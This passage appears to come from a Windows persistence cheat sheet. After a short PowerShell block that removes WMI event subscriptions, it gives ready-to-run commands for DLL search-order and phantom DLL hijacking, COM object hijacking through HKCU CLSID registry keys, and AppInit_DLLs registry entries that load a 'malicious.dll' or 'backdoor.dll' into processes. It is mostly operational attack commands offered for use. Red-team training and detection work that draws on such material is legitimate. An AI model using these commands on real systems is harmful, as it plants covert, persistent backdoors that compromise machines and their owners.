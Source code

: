 ### 2. WMI Persistence Cleanup
```powershell
# Remove WMI persistence
Get-WmiObject __FilterToConsumerBinding -Namespace root\subscription -Filter "Filter = '__EventFilter.Name=""SystemStartupFilter""'" | Remove-WmiObject
Get-WmiObject __EventFilter -Namespace root\subscription -Filter "Name = 'SystemStartupFilter'" | Remove-WmiObject
Get-WmiObject CommandLineEventConsumer -Namespace root\subscription -Filter "Name = 'SystemStartupConsumer'" | Remove-WmiObject
```

## DLL Hijacking Persistence

### 1. DLL Search Order Hijacking
```cmd
# Identify DLL hijacking opportunities
# Look for missing DLLs in application directories
Process Monitor (ProcMon) -> Filter by "Process and Thread Activity" -> Look for "NAME NOT FOUND"

# Common hijackable DLLs
C:\Windows\System32\WINMM.dll
C:\Windows\System32\WININET.dll
C:\Windows\System32\VERSION.dll
```

### 2. Phantom DLL Hijacking
```cmd
# Create malicious DLL in application directory
# Copy legitimate DLL functionality and add backdoor code
copy "malicious.dll" "C:\Program Files\VulnerableApp\missing.dll"

# Restart application to load malicious DLL
taskkill /f /im "VulnerableApp.exe"
start "" "C:\Program Files\VulnerableApp\VulnerableApp.exe"
```

## Advanced Persistence Techniques

### 1. COM Hijacking
```cmd
# Identify COM objects to hijack
reg query "HKCU\SOFTWARE\Classes\CLSID" /s | findstr /i "inprocserver32"

# Hijack COM object
reg add "HKCU\SOFTWARE\Classes\CLSID\{CLSID-HERE}\InprocServer32" /ve /t REG_SZ /d "C:\Windows\System32\backdoor.dll" /f
```

### 2. AppInit_DLLs
```cmd
# Add DLL to AppInit_DLLs (loads into every process)
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v "AppInit_DLLs" /t REG_SZ /d "C:\Windows\System32\malicious.dll" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v "LoadAppInit_DLLs" /t REG_DWORD /d 1 /f
```
